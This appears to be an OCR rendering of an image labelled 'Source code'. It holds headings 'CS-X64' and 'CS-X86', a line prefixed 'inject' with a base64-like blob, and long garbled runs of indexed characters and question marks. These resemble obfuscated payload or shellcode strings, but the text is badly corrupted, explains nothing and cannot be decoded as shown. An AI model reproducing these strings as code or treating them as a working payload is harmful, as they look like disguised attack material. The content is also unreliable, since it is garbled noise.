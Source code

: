 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsadf48|2?,?5;6,f??;10,?Y;14??,r;????1????8,.;??22???,??8;???26???,t;????30,@;??34????,@;?38,m??;????42,i????;46???,t;50??,2;54?,???0;58,?5;6?2,????1;????66,E;????70???,Y;7???4??,?Y;78,?n??;8?2,D;8?6,s???;90,H???;94,????S;9???8???,m;10????2????,s;?106,G?;110,????z;11????4,F;1?1?8??,3;1????22,s;??126,???d?;???130,??c;1??34,?c;?138,?l;??142,????W;1????46?,???A;15?0,U;????154,?4;1????58,Y;???162???,r;1?66,a??;17???0?,h;1?7???4,d?;?17???8,??L;18???2??,?c;1???86,i;??190????,L;?|N????yD5rw????x?fgHz??Y?jL?yr?wEz.??tb0??8L9B???tzJ????b@???xmj@v???kt????mMLr??i9cb??t????L?yf2Cl????w???03u???z5X????0R11D???LElV??2Y???V1???D??Y???mMXnN????BzD??mNNs????b??fqHu????vYSJ??DnmqV???usc?XC????GDd???2zwo???5Fw???ov30?aus???ru?AdxB???zcEY???McxfB????lzgcW???frC???A?s4MU?15??z4?ru???gYe????BXrs??muad????fwh????f?Lrd??3B????DLA?3Mc?3y????n??i????0?e9Lrthrf


mybest48|2,?J;6??,i;???1???0,l?;14,@??;18,?X;?22,b;????26,H????;30,?A;3????4,h;??38,i???;42,g?;46??,1;5??0?,K;?54,?i;5?8,F;6???2,Y;??66????,y;????70,???5?;74,??n???;7????8,D???;8???2,B;????86,C?;90??,Y????;94???,2;????9???8,z???;1???02,j;?106,8??;110???,9;11????4,?y;1???18,s;????12???2,q;1?26???,l??;????130,z????;134,???8;138??,2;1??42,????l????;146??,c??;1????50,???H;??154,X?;158,????U;16????2?,??D????;166??,8;17???0???,???.;?174,a????;178,????B;18???2,k;1??86,c???;1???9???0,n??;|N????yDJ?rwx???i???gH?zlj????Ly@w??Ez????Xtb???0bL?9??BHzJb??Ax???m?jh???vktiM?Lrg?9cb1??LyfK????Clw?i???3??uzF???X0RY???1?D????Ly???l????V25V1?DnmM??XD??NBzBm????N??NC?bfqYu????vY???2JD?n?zq???V?u???jcXC8????D??d????2???9w??o5ywo???vs0???auqr??uAl?xBz???zE?Y???M8???xfB2???zgc????l?frCc?s?4N?H6b??BXL????0g????U2u??vDokx?84bl??.P3????faMun????Bmbx????kjHBc???GZ9nyesano
